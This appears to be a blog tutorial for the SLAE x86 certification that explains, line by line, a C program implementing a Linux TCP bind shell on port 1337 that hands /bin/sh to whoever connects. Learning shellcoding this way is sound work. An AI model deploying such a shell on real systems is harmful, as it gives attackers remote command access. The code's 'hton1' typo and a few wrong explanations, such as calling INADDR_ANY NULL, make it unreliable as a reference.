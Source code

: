 ```yaml
---
title:  "SLAE x86 Assignment 1: TCP Bind Shell"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome to my first SLAE x86 Assignments post! This series of posts aims to fulfil the requirements of the SLAE x86 certification from Pentester Academy, while also making shellcoding easier to understand for people just starting out in the field of exploit development. Let's begin with assignment 1!

## Understanding the objective ##
In order to effectively understand what the shellcode must do, it is a good idea to start off by breaking down the code's major working parts. The shellcode must do the following:

- Creates and configures a socket
- Binds an IP and port to that socket
- Listens for a connection and accepts it
- Duplicates standard file descriptors, so that the shell can interact with the socket
- Spawns a shell

Now that we have an outline for our TCP bind shell, let's write a little C code that does this for us, in order to get a better understanding of how socket functions work.

```c
// SLAE Assignment 1: Shell Bind TCP (Linux/x86)
// Author:  4p0cryph0n
// Website:  https://4p0cryph0n.github.io

#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main()
{
    //Defining Address Structure
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(1337); //Port no.
    addr.sin_addr.s_addr = hton1(INADDR_ANY); //Use any interface to listen

    //Create and Configure Socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    //Bind Socket
    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    //Listen
    listen(sockfd, 0);

    //Accept
    int stdfd = accept(sockfd, NULL, NULL);

    //Duplicate Standard File Descriptors
    for (int i = 0; i < 3; i++)
    {
        dup2(stdfd, i);
    }

    //Execute Shell
    execve("/bin/sh", NULL, NULL);
    return 0;  
}
```

#### Defining the Address Structure
```c
//Defining Address Structure
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(1337); //Port no.
addr.sin_addr.s_addr = hton1(INADDR_ANY); //Use any interface to listen
```
This part of the code is responsible for defining the address family, port, and interface parameters, based on which we create our socket. Executing `man 7 ip` gives us a better understanding of the IP Address format:

```
Address format
       An IP socket address is defined as a combination of an IP interface  address  and  a
       16-bit  port  number.   The basic IP protocol does not supply port numbers, they are
       implemented by higher level protocols  like  udp(7)  and  tcp(7).   On  raw  sockets
       sin_port is set to the IP protocol.
```

```c
struct sockaddr_in {
   sa_family_t    sin_family; /* address family: AF_INET */
   in_port_t      sin_port;   /* port in network byte order */
   struct in_addr sin_addr;   /* internet address */
};

/* Internet address. */
struct in_addr {
   uint32_t       s_addr;     /* address in network byte order */
};
```
Also note that we use ```htons``` and ```hton1``` functions to convert the address and port to Big Endian (network byte order).
```INADDR_ANY``` basically means that the socket will use all the interfaces available on the computer, basically takes the value of ```NULL```.

#### Creating and Configuring the socket
```c
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
```
The ```socket()``` function takes three arguments, shown by the manpage exerpt below. These parameters will be stored in the ```sockfd``` variable for later use in binding, listening and accepting:

```c
#include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int socket(int domain, int type, int protocol);
```
- ```int domain```: This variable is used to specify a protocol family which will be used for communication. In our case, we will be using IPv4 which is specified by ```AF_INET```.
- ```int type```: The type of socket. ```SOCK_STREAM``` in our case, which is used for two-way communication for TCP sockets.
- ```int protocol```: Protocol to be used with the socket. We can also use 0 in our case.

#### Binding the Socket
```c
//Bind Socket
bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
```
This is where we assign an IP and port to the socket, using the ```sockfd``` variable from before, along with the address structure and the size of the address structure, which is supposed to be 16 bytes.

#### Listening and Accepting
```c
//Listen
listen(sockfd, 0);

//Accept
int stdfd = accept(sockfd, NULL, NULL);
```
The ```listen()``` function takes two arguments:
- ```int sockfd```: The socket descriptor from before.
- ```int backlog```: Used to specify the queuing of connections. In our case, we set ```backlog``` to 0, as there is only one connection that we need to be concerned with.

The ```accept()``` function takes three arguments:
- ```int sockfd```: The socket descriptor from before.
- ```struct sockaddr *addr```: The IP of the host. ```NULL``` in our case, as we don't need setup anything for the peer socket.
- ```struct sockaddr *addr```: The addr length of the peer socket. Again, ```NULL```.

After this, the program starts listening for any incoming connections. After it recives one, the ```accept()``` will return a file descriptor for the accepted socket. This is what we will use in order to duplicate our standard file descriptors.

#### Duplicating standard file descriptors
```c
//Duplicate Standard File Descriptors
for (int i = 0; i < 3; i++)
{
    dup2(stdfd, i);
}
```
We need to duplicate stdin, stdout and stderr to the socket in order to redirect input and output from the connection to the socket.

#### Executing a shell
```c
//Execute Shell
execve("/bin/sh", NULL, NULL);
return 0;
```
